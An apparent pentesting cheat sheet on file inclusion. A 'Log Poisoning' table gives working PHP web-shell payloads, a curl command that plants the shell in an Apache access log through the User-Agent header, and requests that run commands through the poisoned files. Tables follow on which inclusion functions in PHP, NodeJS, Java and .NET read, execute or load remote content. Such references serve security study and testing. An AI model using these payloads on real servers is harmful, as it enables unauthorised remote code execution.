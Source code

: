 ### 🪵 Log Poisoning

| Command                                                                             | Description                       |
| ----------------------------------------------------------------------------------- | --------------------------------- |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`         | Read PHP session parameters       |
| `/index.php?language=<?php system($_GET["cmd"]); ?>`                                | Poison PHP session with web shell |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`  | RCE through poisoned PHP session  |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` | Poison server log                 |
| `/index.php?language=/var/log/apache2/access.log&cmd=id`                            | RCE through poisoned access log   |

## 🧩 File Inclusion Functions {.cols-2}

### PHP

| Function                       | Read Content | Execute | Remote URL |
| ------------------------------ | ------------ | ------- | ---------- |
| `include()` / `include_once()` | ✅           | ✅      | ✅         |
| `require()` / `require_once()` | ✅           | ✅      | ❌         |
| `file_get_contents()`          | ✅           | ❌      | ✅         |
| `fopen()` / `file()`           | ✅           | ❌      | ❌         |

### NodeJS

| Function        | Read Content | Execute | Remote URL |
| --------------- | ------------ | ------- | ---------- |
| `fs.readFile()` | ✅           | ❌      | ❌         |
| `fs.sendFile()` | ✅           | ❌      | ❌         |
| `res.render()`  | ✅           | ✅      | ❌         |

### Java

| Function  | Read Content | Execute | Remote URL |
| --------- | ------------ | ------- | ---------- |
| `include` | ✅           | ❌      | ❌         |
| `import`  | ✅           | ✅      | ✅         |

### .NET

| Function                | Read Content | Execute | Remote URL |
| ----------------------- | ------------ | ------- | ---------- |
| `@Html.Partial()`       | ✅           | ❌      | ❌         |
| `@Html.RemotePartial()` | ✅           | ❌      | ✅         |
| `Response.WriteFile()`  | ✅           | ❌      | ❌         |
| `include`               | ✅           | ✅      | ✅         |

